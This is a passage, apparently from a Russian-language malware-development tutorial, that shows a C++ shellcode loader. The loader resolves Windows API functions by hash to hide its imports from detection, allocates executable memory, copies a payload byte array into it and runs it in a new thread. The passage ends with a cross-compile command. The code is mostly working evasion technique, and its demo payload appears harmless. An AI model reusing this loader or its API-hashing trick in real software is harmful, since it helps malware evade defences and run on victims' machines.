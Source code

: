 ```cpp
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = 
  (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = 
  (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = 
  (fnVirtualAlloc)myGetProcAddress(
    hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = 
  (fnCreateThread)myGetProcAddress(
    hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = 
  (fnWaitForSingleObject)myGetProcAddress(
    hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, 
  (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}

```

Как видно, я использовал тот же алгоритм хеширования.    

### Демо

Компилируем:   

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection](./images/47/2022-04-05_02-15.png){width="80%"}    
